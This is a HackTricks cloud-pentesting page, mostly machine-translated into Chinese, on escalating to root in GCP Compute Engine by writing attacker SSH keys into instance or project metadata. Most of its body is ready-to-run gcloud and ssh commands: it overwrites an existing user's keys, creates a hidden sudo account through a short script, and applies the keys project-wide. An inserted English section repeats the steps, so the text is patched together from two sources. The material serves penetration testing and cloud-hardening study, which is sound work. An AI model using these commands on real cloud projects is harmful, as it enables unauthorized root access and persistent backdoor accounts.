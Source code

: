# GCP - 添加自定义SSH元数据

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果您可以**修改实例的元数据**，则有多种方法可以在本地提升特权。以下是可能导致具有此权限的服务帐户的几种情况：

_**默认服务帐户**_\
如果服务帐户访问**范围**设置为**完全访问**，或者至少明确允许**访问计算API**，则此配置容易受到提权攻击。**默认**的**范围**是**不容易受到攻击**的。

_**自定义服务帐户**_\
使用自定义服务帐户时，需要以下IAM权限之一才能提升特权：

* `compute.instances.setMetadata`（影响单个实例）
* `compute.projects.setCommonInstanceMetadata`（影响项目中的所有实例）

尽管Google [建议](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance)不要为自定义服务帐户使用访问范围，但仍然可以这样做。您需要以下**访问范围**之一：

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **向自定义元数据添加SSH密钥**

在GCP上，**Linux**系统通常会运行[Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)脚本。其中之一是[accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，它会**定期查询**实例元数据端点以获取**授权的SSH公钥的更改**。

**如果遇到新的公钥**，它将被处理并**添加到本地机器**。根据密钥的格式，它将被添加到现有用户的`~/.ssh/authorized_keys`文件中，或者将创建一个具有`sudo`权限的新用户。

因此，如果您可以使用您的服务帐户修改自定义实例元数据，您可以通过获得特权帐户的SSH权限来在本地系统上提升为root。如果您可以修改**自定义项目元数据**，则可以在当前GCP项目中运行accounts daemon的**任何系统上提升**为root。

### **向现有特权用户添加SSH密钥**

让我们首先将我们自己的密钥添加到现有帐户中，因为这可能会产生最小的噪音。

**检查实例是否存在SSH密钥**。选择其中一个用户，因为他们很可能具有sudo权限。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
### Add Custom SSH Metadata

To escalate privileges in GCP Compute Engine instances, you can add custom SSH metadata to gain unauthorized access.

1. Identify the target instance by using the `gcloud` command:
   ```
   gcloud compute instances list
   ```

2. Retrieve the SSH key associated with the target instance:
   ```
   gcloud compute instances describe [INSTANCE_NAME] --format="get(metadata.items.ssh-keys)"
   ```

3. Create a new SSH key pair:
   ```
   ssh-keygen -t rsa -f [KEY_FILENAME]
   ```

4. Add the public key to the target instance's metadata:
   ```
   gcloud compute instances add-metadata [INSTANCE_NAME] --metadata="ssh-keys=[USERNAME]:$(cat [KEY_FILENAME].pub)"
   ```

5. SSH into the target instance using the new SSH key:
   ```
   ssh -i [KEY_FILENAME] [USERNAME]@[INSTANCE_IP]
   ```

By adding custom SSH metadata, you can gain unauthorized access to GCP Compute Engine instances and escalate your privileges.
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
请注意公钥的**略微奇怪的格式** - 用户名在**开头**（后跟冒号），然后再次出现在**结尾**。我们需要匹配这个格式。与正常的SSH密钥操作不同，用户名绝对重要！

将带有用户名和密钥的行保存在名为`meta.txt`的新文本文件中。

假设我们的目标是上面提到的用户`alice`。我们将像这样**生成一个新的密钥**：
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
将您的新公钥添加到文件`meta.txt`中，模仿以下格式：
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
现在，您可以使用以下命令**重新编写实例的SSH密钥元数据**：
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
您可以按照以下步骤**以`alice`的身份访问shell**：
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **创建一个新的特权用户并添加SSH密钥**

按照上述步骤后发现没有现有的密钥？在`/etc/passwd`中没有其他有趣的目标？

你可以**按照相同的过程**，只是**编造一个新的用户名**。这个用户将会被自动创建并被赋予`sudo`权限。脚本化的过程如下所示：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

根据前一节中提到的详细信息，您可以尝试入侵更多的虚拟机。

我们可以进一步扩展这些内容，通过[**在项目级别应用SSH密钥**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide)，授予您对未明确选择“阻止项目级别SSH密钥”选项的任何实例进行SSH的权限，从而进入特权账户。
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
如果你非常大胆，你也可以直接输入`gcloud compute ssh [INSTANCE]`来使用你当前的用户名登录其他主机。

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果你想看到你的**公司在 HackTricks 中被宣传**，或者如果你想访问**PEASS 的最新版本或下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注**我在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享你的黑客技巧。**

</details>
